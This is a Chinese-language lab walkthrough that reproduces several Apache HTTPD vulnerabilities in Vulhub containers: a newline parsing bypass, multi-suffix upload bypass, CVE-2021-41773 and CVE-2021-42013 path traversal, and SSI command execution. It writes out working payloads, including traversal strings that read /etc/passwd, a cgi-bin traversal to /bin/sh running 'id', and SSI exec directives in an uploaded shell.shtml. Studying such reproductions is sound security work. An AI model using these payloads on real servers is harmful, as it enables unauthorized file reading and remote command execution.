# 1.**Apache常见漏洞**

## 1.1.**Apache介绍**

简单介绍一下apache是什么，Apache是世界使用排名第一的Web服务器软件。它可以运行在几乎所有广泛使用的计算机上，由于其跨平台和安全性被广泛使用，是最流行的Web服务器端软件之一。它快速、可靠并且可通过简单的API扩充，将python等解释器编译到服务器中。

## 1.2.**Apache HTTPD 换行解析漏洞（CVE-2017-15715）**

### 1.2.1.**漏洞介绍**

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

### 1.2.2.**漏洞环境**

这里采用Vulhub一键搭建漏洞测试靶场，来进行漏洞复现。

#### 1.2.2.1.**运行漏洞环境**

```
docker-compose build

docker-compose up -d
```

 

#### 1.2.2.2.**访问漏洞环境**

```
http://your-ip:8080
```

 

### 1.2.3.**漏洞复现**

#### 1.2.3.1.**拦截**

正常上传php文件就会出现上传失败。

 

#### 1.2.3.2.**添加换行**

在1.php后面插入一个\x0A（注意，不能是\x0D\x0A，只能是一个\x0A），不再拦截，这里只需要选中0d，右击选择insert byte..后，输入0a即可插入至里面，然后发送。

 

#### 1.2.3.3.**访问文件**

这里访问地址即可。

链接：http:ip地址:端口/文件名.php%0a

 

## 1.3.**Apache多后缀解析漏洞（apache_parsing_vulnerability）**

### 1.3.1.**漏洞介绍**

apache httpd支持一个文件多个后缀，windows对于多后缀的识别是看最后一个“.”之后的后缀名。apache对于多后缀文件的识别是从后往前识别，最后一个后缀不能被识别时，会往前识别。

### 1.3.2.**漏洞环境**

#### 1.3.2.1.**运行漏洞环境**

```
docker-compose up -d
```

 

#### 1.3.2.2.**访问漏洞环境**

```
http://your-ip
```

 

### 1.3.3.**漏洞复现**

#### 1.3.3.1.**拦截**

由于设置了白名单，正常在上传php后缀文件后，会被拦截，无法正常进行上传。

 

#### 1.3.3.2.**添加后缀**

由于特性原因，我们可以在后面添加不认识的后缀，或者其它后缀均可。这里我添加.jpg，形成1.php.jpg文件。

 

#### 1.3.3.3.**访问文件**

通过返回的信息得到，我们是成功上传了我们的文件，并返回一个路径，我们在浏览器中访问一下文件，验证一下是否正常执行为php文件。

```
http://IP地址/uploadfiles/1.php.jpg
```

 

## 1.4.**Apache HTTP 路径穿越漏洞（CVE-2021-41773）**

### 1.4.1.**漏洞介绍**

在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

  版本等于2.4.49

  穿越的目录允许被访问（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

### 1.4.2.**漏洞环境**

#### 1.4.2.1.**运行漏洞环境**

```
docker-compose build

docker-compose up -d
```

 

#### 1.4.2.2.**访问漏洞环境**

```
http://your-ip:8080
```

 

### 1.4.3.**漏洞复现**

#### 1.4.3.1.**抓包**

首先这里先抓原始的包。

 

#### 1.4.3.2.**读取任意文件**

在GET处插入POC，用来读取任意文件，但是需要注意/icons必须是一个存在且可访问的目录。

```
POC：/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

 

#### 1.4.3.3.**执行任意命令**

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令。

```
POC：/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh  最下面添加echo;id
```

 

## 1.5.**Apache HTTP 路径穿越漏洞（CVE-2021-42013）**

### 1.5.1.**漏洞介绍**

Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞CVE-2021-41773进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

### 1.5.2.**漏洞环境**

#### 1.5.2.1.**运行漏洞环境**

```
docker-compose build

docker-compose up -d
```

 

#### 1.5.2.2.**访问漏洞环境**

```
http://your-ip:8080
```

 

### 1.5.3.**漏洞复现**

这里总体来说和CVE-2021-41773步骤都是一样的，只是将.%2e替换为.%%32%65，若使用原先的payload无法使用，那么就说明2.4.50进行了修复。

#### 1.5.3.1.**抓包**

首先这里先抓原始的包。

 

#### 1.5.3.2.**读取任意文件**

在GET处插入POC，用来读取任意文件，但是需要注意/icons必须是一个存在且可访问的目录。

```
POC：/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

 

## 1.6.**Apache SSI 远程命令执行漏洞**

### 1.6.1.**漏洞介绍**

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

### 1.6.2.**漏洞环境**

#### 1.6.2.1.**运行漏洞环境**

```
docker-compose up -d
```

 

#### 1.6.2.2.**访问漏洞环境**

```
http://your-ip:8080
```

 

### 1.6.3.**漏洞复现**

#### 1.6.3.1.**编辑文件**

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件，然后在文件中写入命令。

命令：`<!--#exec cmd="ls" -->`

#### 1.6.3.2.**上传文件**

这里我们将文件进行上传，可以看到是成功上传了。

 

#### 1.6.3.3.**访问文件**

可以看到成功显示目录下存在的文件。

  